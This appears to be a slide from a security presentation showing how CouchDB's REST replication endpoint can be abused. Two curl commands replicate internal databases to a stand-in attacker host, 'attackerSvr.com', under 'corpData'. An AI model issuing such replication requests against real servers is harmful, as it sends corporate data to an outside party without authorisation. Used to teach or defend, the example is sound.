

# Rest Extension Data Exfiltration Example (Couch DB)
curl –vX POST http://internalSrv.com:5984/_replicate –d ‘{“source”:”db_name”, “target”:”http://attackerSvr.com:5984/corpData”}’ –H “Content-Type: application/json”

curl –vX POST http://srv.com:5984/_replicate –d ‘{“source”:”http://anotherInternalSvr.com:5984/db”, “target”:”http://attackerSvr.com:5984/corpData”}’ –H “Content-Type: application/json”